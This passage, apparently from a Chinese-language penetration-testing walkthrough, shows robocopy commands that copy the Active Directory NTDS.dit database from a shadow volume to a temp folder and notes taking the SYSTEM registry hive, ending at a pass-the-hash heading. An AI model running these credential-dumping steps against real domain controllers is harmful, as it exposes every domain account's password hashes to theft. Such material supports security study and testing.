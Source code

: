将备份 ntds.dit 文件移动到我的临时文件夹

```bash
cd Z:
cd windows
cd ntds
robocopy /b .\ C:\temp NTDS.dit
```

[![](assets/1706771835-f0915f6165640a07acb79bbb6c5cc7b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103409-e19d9930-be4e-1.png)

获取 ntds.dit 文件后，从注册表中获取 SYSTEM 文件

[![](assets/1706771835-0229c96c4d15d8eb32d3ea3e492ad6ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103417-e67b4ac4-be4e-1.png)

## 通过哈希传递攻击获取 Shell

